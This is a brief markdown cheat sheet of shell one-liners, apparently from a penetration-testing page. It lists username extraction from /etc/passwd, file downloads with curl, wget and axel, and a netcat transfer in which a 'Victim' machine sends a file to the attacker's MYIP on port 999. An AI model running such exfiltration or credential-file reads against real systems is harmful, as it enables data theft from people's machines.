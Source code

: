 ![image](https://user-images.githubusercontent.com/68326057/118384023-9df1a480-b620-11eb-812f-4104c1d11d65.png)


# Cut

To grep Only Usernames:-

```bash
cat /etc/passwd | grep bash | cut -d ":" -f 1
```

# To Download FILEs


## CURL
```bash
curl -O url
```

## WGET
```bash
wget url -o output
```

## axel
```bash
axel -a -n 20 -o output url
```

## nc

```bash
My machine 
sudo nc -l -p 999 > file

On Victim
nc.exe -w 5 MYIP 999 < file
```
